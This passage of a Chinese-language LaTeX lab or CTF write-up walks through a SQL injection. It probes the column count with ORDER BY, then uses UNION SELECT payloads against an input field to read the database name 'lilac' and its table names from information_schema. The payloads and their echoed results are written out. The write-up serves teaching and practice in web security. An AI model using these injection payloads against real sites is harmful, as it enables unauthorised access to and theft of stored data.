    
\includegraphics[width=0.95\textwidth]{5.3.png}
    \caption{列数判断（order by 4正常/5报错）}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.4.png}
    \caption{列数验证结果}
\end{figure}

\subsubsection{步骤二：获取数据库名与数据表名}
\begin{enumerate}
    \item 构造联合查询语句获取当前数据库名：
    \begin{lstlisting}[language=sql]
Amy Jones' union select database(),2,3,4#
    \end{lstlisting}
    页面回显数据库名：\texttt{lilac}。
    
    \item 查询数据库中的所有表名：
    \begin{lstlisting}[language=sql]
Amy Jones' union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema='lilac'#
    \end{lstlisting}
    页面回显表名：\texttt{chkjdhdepbphff,info}（目标表为\texttt{chkjdhdepbphff}）。
\end{enumerate}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.5.png}
    \caption{获取数据库名称}
\end{figure}

\begin{figure}[H]
    \centering
